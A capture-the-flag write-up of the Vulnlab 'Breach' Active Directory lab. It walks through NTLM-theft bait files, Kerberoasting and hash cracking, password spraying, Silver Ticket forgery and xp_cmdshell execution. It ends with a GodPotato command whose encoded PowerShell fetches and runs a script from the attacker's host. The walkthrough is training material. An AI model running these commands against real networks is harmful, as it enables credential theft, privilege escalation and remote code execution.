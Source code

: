 ```yaml
---
title: Vulnlab - Breach
date: 2025-05-29 02:30:00 +/-TTTT
categories: [VulnLab]
tags: [Silver Ticket Attack]     # TAG names should always be lowercase
image : /assets/images/breachana.png
---
```


## Entry

Create host file

```bash
nxc smb 10.10.71.143 --generate-hosts-file 
```

writable share

```bash
➜  breach nxc smb 10.10.71.143 -u 'Guest' -p '' --shares                                     
SMB         10.10.71.143    445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)
SMB         10.10.71.143    445    BREACHDC         [+] breach.vl\Guest: 
SMB         10.10.71.143    445    BREACHDC         [*] Enumerated shares
SMB         10.10.71.143    445    BREACHDC         Share           Permissions     Remark
SMB         10.10.71.143    445    BREACHDC         -----           -----------     ------
SMB         10.10.71.143    445    BREACHDC         ADMIN$                          Remote Admin
SMB         10.10.71.143    445    BREACHDC         C$                              Default share
SMB         10.10.71.143    445    BREACHDC         IPC$            READ            Remote IPC
SMB         10.10.71.143    445    BREACHDC         NETLOGON                        Logon server share 
SMB         10.10.71.143    445    BREACHDC         share           READ,WRITE      
SMB         10.10.71.143    445    BREACHDC         SYSVOL                          Logon server share 
SMB         10.10.71.143    445    BREACHDC         Users           READ            
```

i used https://github.com/Greenwolf/ntlm_theft

```bash
(.venv) ➜  ntlm_theft git:(master) ✗ python3 ntlm_theft.py --generate all --server 10.8.2.152 --filename @irem
Created: @irem/@irem.scf (BROWSE TO FOLDER)
Created: @irem/@irem-(url).url (BROWSE TO FOLDER)
Created: @irem/@irem-(icon).url (BROWSE TO FOLDER)
Created: @irem/@irem.lnk (BROWSE TO FOLDER)
Created: @irem/@irem.rtf (OPEN)
[SNIP]
```

![alt text](../assets/images/breach1.png)


and got `local.txt`

```bash
➜  breach smbclientng -u Julia.Wong -p 'Computer1' --host breach.vl
■[\\breach.vl\share\transfer\julia.wong\]> ls
d-------     0.00 B  2022-02-17 06:24  .\
d-------     0.00 B  2025-05-29 17:11  ..\
-a------    36.00 B  2022-02-17 06:25  local.txt
■[\\breach.vl\share\transfer\julia.wong\]> get local.txt
'local.txt' ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 36/36 bytes • ? • 0:00:00
■[\\breach.vl\share\transfer\julia.wong\]> exit
➜  breach cat local.txt 
VL{5ad5861a4669ba18796ea4513a6a892b}
```

lets grab all users and check if we have any different description

```bash
nxc smb 10.10.71.143 -u 'Julia.Wong' -p 'Computer1' --users
```

![alt text](../assets/images/breach2.png)

we have mssql running here

![alt text](../assets/images/breach3.png)

let see if we can dump BH data

```bash
➜  breach nxc ldap 10.10.71.143 -u 'Julia.Wong' -p 'Computer1'     
LDAP        10.10.71.143    389    BREACHDC         [*] Windows Server 2022 Build 20348 (name:BREACHDC) (domain:breach.vl)
LDAP        10.10.71.143    389    BREACHDC         [+] breach.vl\Julia.Wong:Computer1 
```

yes we can

```bash
bloodhound-python -ns 10.10.71.143 --dns-tcp -u 'Julia.Wong' -p 'Computer1' --zip -c All -d breach.vl
```

![alt text](../assets/images/breach4.png)

There is nothing interesting at BH yet lets check `kerberoastable` or `asrep` users

![alt text](../assets/images/breach5.png)

bommm

```bash
nxc ldap 10.10.71.143 -u 'Julia.Wong' -p 'Computer1' --kerberoasting kerberoat.txt
```

![alt text](../assets/images/breach6.png)

```bash
➜  breach john svc_mssql_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Trustno1         (?) 
```

lets do password spray

```bash
➜  breach nxc smb 10.10.71.143 -u users.txt -p 'Trustno1' --continue-on-success
```

![alt text](../assets/images/breach7.png)

Lets try on mssql

```bash
➜  breach nxc mssql 10.10.71.143 -u svc_mssql -p 'Trustno1'       
MSSQL       10.10.71.143    1433   BREACHDC         [*] Windows Server 2022 Build 20348 (name:BREACHDC) (domain:breach.vl)
MSSQL       10.10.71.143    1433   BREACHDC         [+] breach.vl\svc_mssql:Trustno1
```

and login

```bash
mssqlclient.py svc_mssql@10.10.71.143 -windows-auth
```

![alt text](../assets/images/breach8.png)

But we are **Guest** here.

## Silver Ticket

Aight, now that we got creds for the account runnin' the MSSQL service, we can hit it with a **Silver Ticket** attack.

Here’s the game:

When you throw a TGS at the MSSQL service, it don’t care who sent it—as long as it’s signed with the NT hash of `svc_mssql`, it’ll trust it. Since we got the password, we can cook up the hash and fake a ticket that makes us look like *anybody*, even a domain admin.

And you know domain admins got keys to everything, including MSSQL. That’s our in.

To make that ticket:

```bash
lookupsid.py breach.vl/svc_mssql:'Trustno1'@breach.vl 
```

![alt text](../assets/images/breach9.png)

and 

```bash
ticketer.py -nthash '69596C7AA1E8DAEE17F8E78870E25A5C' -domain-sid 'S-1-5-21-2330692793-3312915120-706255856' -domain breach.vl -spn 'MSSQLSvc/breach.vl:1433' -user-id 500 Administrator
```

![alt text](../assets/images/breach10.png)

Lets Export it and login mssql again

```bash
➜  breach mssqlclient.py -k -no-pass breach.vl -windows-auth
/usr/local/bin/mssqlclient.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'mssqlclient.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (BREACH\Administrator  dbo@master)> 
```

now we can enable xp_cmdshell and load our beacon.

![alt text](../assets/images/breach11.png)

and we got it.

![alt text](../assets/images/breach12.png)

## SeImpersonatePrivilege

```bash
execute-assembly /home/elliot/tools/godpotato.exe -cmd "powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADIALgAxADUAMgAvAGEALgBwAHMAMQB8AGkAZQB4AAoA"
```

![alt text](../assets/images/breach13.png)

GG!